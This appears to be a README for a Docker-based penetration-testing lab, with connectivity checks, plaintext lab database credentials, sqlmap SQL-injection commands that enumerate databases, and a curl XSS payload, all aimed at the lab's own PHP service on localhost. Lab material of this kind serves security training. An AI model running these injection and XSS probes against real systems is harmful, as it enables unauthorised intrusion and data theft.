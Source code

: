### Run docker compose
```
docker-compose up --build
```

# Internal Tests
## 1. Check Connectivity From Pentest_container:
Ping command from your pentest_container to ensure all services are reachable over both private_network and public_network

### Open  shell in `pentest_container` container
```
docker exec -it pentest_container /bin/bash
```

### Update `apt-get`
```
apt-get update
```

### Install ping command
```
apt-get install -y iputils-ping
```

### Use ping command to check connectivity to `php_web`
```
ping php_web
```

### Use pingcommand to check connectivity to `internal_api`
```
ping interal_api
```

### Use pingcommand to check connectivity to `mysql_db`
```
ping mysql_db
```

## 2. Check Database Connection from internal_api

```
docker exec -it internal_api /bin/bash
mysql -u fromage_user -p -h mysql_db -D fromage_db
```
Password: fromage_password

## 3. SQLMap to Test SQL Injection (Between Containers):
	•	Purpose: Testing the SQL injection vulnerability of the php_web service from inside the Docker network.
	•	Internal: When launched from pentest_container (inside the Docker network), the attack is internal.

```
apt-get install -y sqlmap
```
```
sqlmap -u "http://php_web/index.php" --data="nom=Brie&prix=4.50" --dbs
```

## 	4.	Monitoring Logs Inside the Network:
	•	Purpose: Observing the logs generated by internal services such as php_web and internal_api.
	•	Internal: Log monitoring from within the environment.
```
docker logs -f php_web
docker logs -f internal_api
```

# External Tests (Run from Outside Docker, e.g., from Host Machine):

Access the php_web Service from Outside the Docker Network:
	•	Purpose: Testing the public-facing service running on port 8080 (the web service).
	•	External: Accessing php_web via the host machine’s IP address or localhost.

```
# Check external access to php_web service
curl http://localhost:8080

# SQLMap attack from outside the network
sqlmap -u "http://localhost:8080/index.php" --data="nom=Brie&prix=4.50" --dbs

# Test for XSS vulnerability from external environment
curl -X POST -d "nom=<script>alert('XSS Test')</script>&prix=4.50" http://localhost:8080/index.php
```
